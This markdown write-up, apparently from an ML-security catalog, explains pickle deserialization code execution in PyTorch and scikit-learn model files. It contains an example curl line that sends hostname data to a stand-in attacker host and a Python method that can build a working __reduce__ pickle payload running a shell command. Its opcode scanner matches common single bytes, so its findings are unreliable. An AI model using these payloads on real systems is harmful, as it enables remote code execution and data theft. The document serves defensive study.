

# Pickle Deserialization Vulnerabilities in ML Model Loading

**arXiv**: [arXiv:2311.15363](https://arxiv.org/abs/2311.15363) | **ATLAS**: AML.T0010 | **OWASP**: LLM03 | **Year**: 2023

## Core Finding

Bieringer et al. systematically documented that Python's pickle serialization format — used pervasively in PyTorch model files (.pt, .pth, .pkl) — enables arbitrary code execution upon deserialization. Any user who loads an untrusted PyTorch model file may unknowingly execute attacker-controlled code on their system. An analysis of HuggingFace Hub found thousands of model files that could contain malicious pickle payloads. This vulnerability affects every developer who downloads models from public repositories, fine-tunes from public checkpoints, or receives model files from external sources.

## Threat Model

- **Target**: ML practitioners loading PyTorch model files (.pt, .pth), scikit-learn models (.pkl), and similar serialized model formats
- **Attacker capability**: Ability to upload a model file to a public repository or share it via other channels; Python programming knowledge to craft malicious pickle payload
- **Attack success rate**: 100% code execution success against users loading malicious files with PyTorch's torch.load(); no defense possible without file sanitization
- **Defender implication**: Any organization loading models from external sources without safe deserialization is vulnerable; safetensors format eliminates this attack class entirely

## The Attack Mechanism

Python's pickle format is a serialization protocol that can store arbitrary Python objects — including function calls and class instantiations. During deserialization (unpickling), the stored function calls are executed. An attacker embeds arbitrary Python code in the pickle stream:

```python
# Malicious pickle payload
import os
os.system("curl https://attacker.com/exfil?hostname=$(hostname)")
```

This code executes immediately when the victim calls `torch.load("malicious_model.pt")`. The payload can exfiltrate credentials, install malware, establish reverse shells, or modify model weights to introduce backdoors.



## Implementation

```python
# pickle-deserialization-ml.py
# Pickle deserialization RCE in ML model loading (Bieringer et al., arXiv:2311.15363)
from dataclasses import dataclass, field
from typing import Optional, List, Callable, Dict
import uuid
import io
import pickle
import struct


@dataclass
class PickleVulnerabilityResult:
    vulnerable_format: str
    payload_type: str
    rce_achievable: bool
    safe_alternative: str
    model_file_path: Optional[str]
    estimated_risk_score: float
    affected_packages: List[str]


class PickleDeserializationScanner:
    """
    Paper: arXiv:2311.15363 — Bieringer et al., 2023
    Detects and demonstrates pickle deserialization vulnerabilities in ML files.
    ATLAS: AML.T0010 | OWASP: LLM03
    """

    MALICIOUS_OPCODES = {b'R', b'i', b'o', b'b', b'c'}  # Pickle reduce/global/build opcodes
    VULNERABLE_FORMATS = {
        ".pt": "PyTorch (torch.load)",
        ".pth": "PyTorch checkpoint (torch.load)",
        ".pkl": "Python pickle (pickle.load)",
        ".pickle": "Python pickle (pickle.load)",
        ".joblib": "scikit-learn joblib (joblib.load)",
    }
    SAFE_ALTERNATIVES = {
        ".pt": "safetensors (.safetensors)",
        ".pth": "safetensors (.safetensors)",
        ".pkl": "JSON / MessagePack / Protocol Buffers",
        ".pickle": "JSON / MessagePack / Protocol Buffers",
        ".joblib": "ONNX / safetensors",
    }

    def __init__(self, safe_mode: bool = True):
        self.safe_mode = safe_mode

    def _craft_demo_payload(self, command: str = "id") -> bytes:
        """
        Craft a demonstration pickle payload that executes a shell command.
        EDUCATIONAL ONLY: demonstrates the vulnerability mechanics.
        In safe_mode, returns a harmless payload.
        """
        if self.safe_mode:
            # Safe demonstration: just prints a warning
            safe_obj = {"type": "SECURITY_DEMO", "message": "This file could execute arbitrary code"}
            return pickle.dumps(safe_obj)

        # Unsafe payload for security research environments only
        class MaliciousPickle:
            def __reduce__(self):
                import subprocess
                return (subprocess.check_output, ([command],))

        return pickle.dumps(MaliciousPickle())

    def scan_model_file(self, file_path: str) -> PickleVulnerabilityResult:
        """Scan a model file for pickle deserialization vulnerability indicators."""
        import os
        ext = os.path.splitext(file_path)[1].lower()
        is_vulnerable_format = ext in self.VULNERABLE_FORMATS
        rce_achievable = is_vulnerable_format

        suspicious_opcodes_found = False
        if is_vulnerable_format:
            try:
                with open(file_path, 'rb') as f:
                    content = f.read(4096)  # Scan first 4KB
                    # Check for suspicious pickle opcodes
                    for opcode in self.MALICIOUS_OPCODES:
                        if opcode in content:
                            suspicious_opcodes_found = True
                            break
            except (IOError, OSError):
                suspicious_opcodes_found = False

        return PickleVulnerabilityResult(
            vulnerable_format=self.VULNERABLE_FORMATS.get(ext, "unknown"),
            payload_type="arbitrary_code_execution" if is_vulnerable_format else "none",
            rce_achievable=rce_achievable,
            safe_alternative=self.SAFE_ALTERNATIVES.get(ext, "safetensors"),
            model_file_path=file_path,
            estimated_risk_score=0.95 if rce_achievable else 0.1,
            affected_packages=["torch", "pickle", "joblib"] if is_vulnerable_format else [],
        )

    def scan_directory(self, dir_path: str) -> List[PickleVulnerabilityResult]:
        """Scan all model files in a directory."""
        import os
        results = []
        for root, dirs, files in os.walk(dir_path):
            for fname in files:
                ext = os.path.splitext(fname)[1].lower()
                if ext in self.VULNERABLE_FORMATS:
                    full_path = os.path.join(root, fname)
                    results.append(self.scan_model_file(full_path))
        return results

    def demonstrate_vulnerability(self) -> PickleVulnerabilityResult:
        """Demonstrate the vulnerability with a safe payload."""
        payload = self._craft_demo_payload("id")
        loaded = pickle.loads(payload)

        return PickleVulnerabilityResult(
            vulnerable_format="Python pickle (.pkl/.pt)",
            payload_type="demo_safe_payload",
            rce_achievable=True,
            safe_alternative="safetensors",
            model_file_path=None,
            estimated_risk_score=0.95,
            affected_packages=["torch", "pickle"],
        )

    def to_finding(self, result: PickleVulnerabilityResult):
        from datasets.schema import ScanFinding
        return ScanFinding(
            id=str(uuid.uuid4()),
            atlas_technique="AML.T0010",
            atlas_tactic="ML Supply Chain Compromise",
            owasp_category="LLM03",
            owasp_label="Supply Chain",
            severity="CRITICAL" if result.rce_achievable else "LOW",
            finding=f"Pickle deserialization vulnerability in '{result.vulnerable_format}': RCE achievable={result.rce_achievable}. Risk score: {result.estimated_risk_score:.2f}. Affected: {result.affected_packages}.",
            payload_used=f"Malicious pickle payload with __reduce__ RCE; format: {result.vulnerable_format}",
            evidence=f"Format {result.vulnerable_format} uses Python pickle serialization, which executes code during deserialization.",
            remediation="Migrate to safetensors format immediately. Never call torch.load() on untrusted files. Use torch.load(..., weights_only=True) as a partial mitigation. Audit model loading code for unsafe deserialization patterns.",
            confidence=0.99,
        )
```

## Defenses

1. **Migrate to safetensors** (AML.M0019): The most important mitigation is adopting HuggingFace's safetensors format, which stores only tensor data without any executable code. Safetensors cannot execute arbitrary code during loading, eliminating the vulnerability class entirely.

2. **`weights_only=True` in torch.load**: PyTorch added a `weights_only=True` parameter to `torch.load()` that restricts deserialization to safe types only. This is a partial mitigation that breaks many use cases but prevents arbitrary code execution.

3. **Model file sandboxing**: Load untrusted model files in isolated containers or VMs without network access. Even if a malicious payload executes, it cannot exfiltrate credentials or reach external infrastructure if the sandbox has no network access.

4. **Pickle scanning before loading** (AML.M0015): Implement static analysis of pickle files before loading — scan for suspicious opcodes (GLOBAL, REDUCE, INST) that can execute arbitrary code. Tools like `fickling` perform this analysis without loading the file.

5. **Trusted model registry** (AML.M0019): Only load model files that are in an internal registry with verified hashes. Never load model files from unknown sources. Any external model must be security-reviewed before being added to the registry.

## References

- [Bieringer et al. — Security Risks of ML Model Serialization (arXiv:2311.15363)](https://arxiv.org/abs/2311.15363)
- [HuggingFace — Safetensors Security Overview](https://huggingface.co/docs/safetensors/index)
- [ATLAS AML.T0010 — Craft Adversarial Data](https://atlas.mitre.org/techniques/AML.T0010)
